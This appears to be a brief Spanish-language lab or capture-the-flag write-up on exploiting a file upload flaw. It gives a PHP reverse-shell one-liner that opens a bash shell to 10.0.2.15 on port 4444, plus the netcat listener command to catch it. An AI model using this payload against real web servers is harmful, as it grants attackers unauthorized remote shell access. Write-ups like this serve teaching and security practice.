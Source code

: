 # File Upload

## Descripción del reto

En esta vulnerabilidad tenemos que ejecutar un exploit mediante un fichero que se subira al servidor web.

## Explotación de la vulnerabilidad

1. Para explotar esta vulnerabilidad vamos a crear una revershell sencillo.

```bash
<?php exec("/bin/bash -c 'bash -i>& /dev/tcp/10.0.2.15/4444 0>&1'") ?>
```

![File upload](/img/FileUpload/Captura1.png)

2. Ahora nos pondremos en escucha por el puerto 4444 y esperaremos la respuesta.

```bash
nc -lvnp 4444
```